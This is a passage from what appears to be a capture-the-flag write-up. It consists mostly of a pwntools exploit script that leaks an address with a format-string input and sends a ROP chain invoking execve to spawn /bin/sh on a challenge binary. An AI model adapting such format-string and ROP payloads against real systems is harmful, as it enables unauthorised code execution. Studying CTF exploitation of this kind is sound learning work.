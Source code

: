 exe = ELF('./ropv')

print("--------------------------------------------------------")
x = "%3$p"
print("payload: " + x)
r.sendlineafter(":",x)
leak = str(r.recvline()).replace("\\n","").replace("b'","").replace(" ","").replace("'",'')
print("leak:" + leak)
if "nil" in leak:
    r.close()
    # continue
leak = int(leak,16)
print("leak converted:" + str(leak))
p = b"/bin/sh\x00"
p += p64(leak)
p += b"/bin/sh\x00"
p += p64(gadget0)
p += p64(0x111)*2
p += p64(0xdeadbeef)
p += p64(ecall)*2

p += p64(gadget1)
p += p64(0xdead)
p += p64(buffer_remote)
p += p64(0)
p += p64(0)
p += p64(0x3131313131313133)
p += p64(0x3131313131313134)
p += p64(0x3131313131313135)
p += p64(0x3131313131313136)
p += p64(221)
p += p64(0x3c74a)
p += p64(0x88888)*8



r.sendline(p)
r.interactive()
# print(b"response: " + r.recvall())
# r.close()

{% endhighlight %}

running the exploit and we got our flag :)
